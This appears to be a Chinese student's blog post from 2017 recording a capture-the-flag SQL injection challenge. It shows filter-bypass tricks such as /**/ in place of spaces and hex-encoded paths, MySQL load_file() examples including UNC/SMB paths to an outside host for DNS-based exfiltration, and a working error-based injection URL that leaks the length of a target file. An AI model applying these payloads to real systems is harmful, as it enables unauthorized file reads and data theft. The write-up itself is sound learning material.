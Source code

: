```yaml
---
layout: post
title: "第七周总结"
date: 2017-04-09 14:58:44
description: "周总结"
tag: 总结
---
```


## 4.5记录

```
SQL_4 
参数为：?id=访问x
不允许包含“--”，空格，单引号，双引号，“union”
查询文件中包含“”（双引号）里面的内容，需要查询的文件路径为：/var/test/key_1.php
```

查询文件？首先想到的就是mysql里面的load——file()读文件函数

题目上说不能用空格，那么空格就用/**/代替

常见的读文件，可以用16进制代替字符串

```
select load_file('c:/boot.ini')
select load_file(0x633a2f626f6f742e696e69)
select load_file('//ecma.io/1.txt')       # smb协议
select load_file('\\\\ecma.io\\1.txt')    # 可用于DNS隧道
```

然后...就没思路了...（渣...）

把我会的知道的步骤折腾了一遍之后没辙了，乖乖去看表哥们的writeup。。。发现里面不仅用到了load——file()函数，还有extractvalue(),substring()，length()...

百度大法好~


```
*extractvalue(XML_document, XPath_string);  
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串).
作用：从目标XML中返回包含所查询值的字符串
http://blog.csdn.net/airuozhaoyang/article/details/47036923（关于extractvalue()和UpdateXML()函数）
*substring()函数：截取字符串
http://www.111cn.net/database/mysql/mysql-SUBSTRING.htm
*length()函数：返回字符串的长度
```
接下来是后来整理的步骤

判断字符串长度
```
http://103.238.227.13:10088/?id=1/**/and/**/extractvalue(1,concat(0x7e,(select/**/(length(load_file(0x2f7661722f746573742f6b65795f312e706870)))),0x7e)))
得出字符串长度为149
```
（图1）
